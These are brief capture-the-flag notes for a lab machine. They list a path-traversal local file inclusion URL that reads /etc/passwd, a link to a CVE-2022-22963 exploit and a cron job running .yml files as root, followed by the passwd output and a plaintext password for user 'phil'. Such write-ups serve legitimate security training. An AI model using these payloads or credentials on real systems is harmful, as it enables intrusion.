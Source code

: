 ## Main points
- Local File Inclusion: http://10.10.11.204:8080/show_image?img=../../../../../../etc/passwd
- https://github.com/darryk10/CVE-2022-22963
- Full path of the binary that runs as a **cron job** and executes all the `.yml` files located in the `/opt/automation/tasks/` 


```
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```

phil
DocPhillovestoInject123